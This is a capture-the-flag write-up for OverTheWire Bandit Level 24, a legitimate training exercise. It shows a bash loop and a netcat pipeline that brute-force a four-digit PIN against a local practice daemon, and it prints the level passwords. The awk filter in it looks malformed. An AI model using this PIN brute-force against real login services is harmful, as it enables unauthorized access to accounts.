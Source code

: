 # OverTheWire Bandit Level 24

## Credentials
username: bandit24
password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Writeup
First, I used the following command to create a list of all possible 4-digit combinations.

`echo {0..9}{0..9}{0..9}{0..9} > char_list.txt`

Then I created the following bash script `./get24` to print out the possible authentication keys.

```bash
#!/bin/bash

for i in $(cat /tmp/liib24/char_list.txt); 

do echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i";

done; 
```
Finally, I used the following command line commands to obtain brute-force the flag.

```
./get24 | nc localhost 30002 | awk '/$1 !~ /^Wrong/ {print $0}'
```

## Flag
Level 25 Password: p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
